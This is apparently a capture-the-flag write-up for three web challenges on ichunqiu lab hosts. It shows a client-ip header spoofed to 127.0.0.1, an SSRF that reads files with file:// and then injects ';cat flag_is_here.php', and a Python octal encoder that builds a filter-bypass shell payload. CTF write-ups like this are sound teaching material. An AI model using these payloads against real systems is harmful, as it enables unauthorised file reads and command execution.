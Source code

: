 # Web1

```http
GET /There_is_no_flag_here.php HTTP/1.1
Host: eci-2ze7fu15ewwxadups678.cloudeci1.ichunqiu.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
client-ip:127.0.0.1
Cookie: chkphone=acWxNpxhQpDiAchhNuSnEqyiQuDIO0O0O; __jsluid_h=38957b31ca0168d2037aeb66ca8c866f
Connection: close


```



# Web2

先file协议读文件`?url=file:///var/www/html/flag.php`

然后命令执行：

```
http://eci-2ze7fu15ewwxadups680.cloudeci1.ichunqiu.com/index.php?url=http://127.0.0.1/flag.php%3Fcmd=;cat flag_is_here.php
```



# Web3

八进制绕一下就行。

```python
def str_to_oct(cmd):                                #命令转换成八进制字符串
    s = ""
    for t in cmd:
        o = ('%s' % (oct(ord(t))))[2:]
        s+='\\'+o   
    return s
print(str_to_oct('cat'))
```



```
$'\143\141\164' /*
```
